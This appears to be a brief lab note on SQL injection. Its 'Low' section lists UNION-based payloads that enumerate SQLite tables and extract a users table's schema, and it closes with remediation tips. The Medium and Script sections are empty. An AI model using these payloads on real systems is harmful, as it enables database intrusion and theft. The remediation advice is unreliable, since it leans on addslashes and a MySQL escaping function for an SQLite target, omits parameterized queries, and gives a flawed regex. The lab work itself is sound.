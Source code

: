 # 1. Low
`null'order+by+1--`
`null'order+by+7--`
`null'UNION+SELECT+1,name,null,null,null,null+FROM+sqlite_master--`
`null'UNION+SELECT+1,tbl_name,3,4,5,6+FROM+sqlite_master--`
`null'UNION+SELECT+1,sql,3,4,5,6+FROM+sqlite_master+WHERE+name='users'--`


---
# 2. Medium


---
# 3. Script Supported

---
# 4. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 .-_]+`
- Using function to filter input: 
	- `$value = mysql_real_escape_string($data);`
	- `$value = addslashes($data);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)